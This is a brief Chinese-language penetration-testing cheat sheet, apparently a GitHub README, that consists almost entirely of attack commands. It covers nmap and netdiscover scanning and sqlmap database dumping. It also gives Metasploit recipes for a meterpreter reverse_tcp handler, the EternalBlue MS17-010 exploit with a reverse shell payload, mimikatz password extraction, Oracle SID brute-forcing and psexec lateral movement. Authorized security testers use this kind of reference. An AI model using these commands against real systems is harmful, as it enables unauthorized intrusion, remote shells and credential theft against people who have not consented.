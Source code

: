 # Speed-PenTest 
`出渗透测试报告也是需要技巧的`
[TOC]

---

# 通用
## 信息收集
### IP扫
>netdiscover -r 1.1.1.0/24

### 端口扫
>nmap -T5 -A -v 1.1.1.1

---

# web
## SQL注入
### sqlmap
```sql
sqlmap -u URL	判断注入
sqlmap -u URL --current-db	 获取当前数据库
sqlmap -u URL -D DATABASE --tables		获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns	获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		获取指定表的列名
```

## 业务渗透
### openssl
MassBleed
sslscan
testssl

---

# 监听器
## handler
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
```

## exp
### ms17-010
```bash
发现，检测
use auxiliary/scanner/smb/smb_ms17_010

使用payload连上去
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set lhost   #设一下本机地址
set rhosts 
run

msf 下
提取密码操作
load mimikatz
kerberos
```

## poc
### CVE-2012-1675 Oracle TNS Listener Remote Poisoning
```bash
use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息，若是能获取到内存中的数据即为存在漏洞。
use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
```

## 域
cmd 下
```bash
#如果没有psexec工具记得找pstool工具包，传一个上去
psexec \\hostIp -u [username] -p [password] cmd
```







